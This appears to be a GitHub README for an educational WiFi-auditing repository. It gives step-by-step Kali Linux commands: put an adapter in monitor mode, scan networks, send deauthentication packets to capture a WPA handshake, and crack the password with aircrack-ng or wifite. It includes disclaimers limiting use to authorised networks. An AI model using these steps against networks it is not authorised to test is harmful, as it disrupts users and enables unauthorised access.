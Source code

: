 # WiFi-Auditing-with-Kali-Linux

WiFi Auditing with Kali Linux
This repository contains scripts and instructions for WiFi auditing using Kali Linux tools like airmon-ng, wifite, and others. These tools allow you to test the security of WiFi networks by monitoring, capturing, and cracking passwords.

Note: This project is for educational purposes only. Do not use these tools on networks you do not own or have explicit permission to test.

Prerequisites
Before you begin, make sure you have the following installed:

Kali Linux: You can install Kali Linux on a physical machine or in a VirtualBox/VMware environment.
WiFi Adapter: A compatible external WiFi adapter capable of monitor mode and packet injection (e.g., Alfa AWUS036ACH).
Aircrack-ng: A complete suite of tools for WiFi network security auditing.
Wifite: An automated WiFi hacking tool that simplifies the use of various WiFi audit tools.


Tools Used
airmon-ng: To enable monitor mode on your WiFi adapter.
airodump-ng: To capture WiFi network packets.
aireplay-ng: For deauth attacks or packet injection.
wifite: To automate the auditing process.


Installation
Install the necessary tools:



sudo apt update
sudo apt install aircrack-ng wifite
Check if your WiFi adapter supports monitor mode:



sudo iwconfig
Enable monitor mode on your adapter:



sudo airmon-ng start wlan0

Usage
Using wifite
Run wifite to start scanning for available WiFi networks:


sudo wifite
Select the network(s) you wish to audit from the list displayed by wifite.

Wait for the attack to complete. Wifite will attempt different attacks based on the security type (WEP, WPA, etc.).

If successful, Wifite will crack the password and display it on the screen.

Manual WiFi Auditing
Start by placing your WiFi adapter in monitor mode:


sudo airmon-ng start wlan0
Use airodump-ng to scan for networks:


sudo airodump-ng wlan0mon
Target a specific network:


sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w [OUTPUT] wlan0mon
Deauthenticate a client to capture the handshake:


sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon

Crack the captured handshake:


sudo aircrack-ng [OUTPUT].cap -w [WORDLIST]


#Screenshots
Here are a few screenshots of the setup and usage:

Monitor mode enabled:


Scanning WiFi networks:


Successful password crack:


License
This project is licensed under the MIT License.

Disclaimer
This tool should only be used for ethical hacking purposes on networks you own or have permission to test. Unauthorized access to computer systems is illegal.
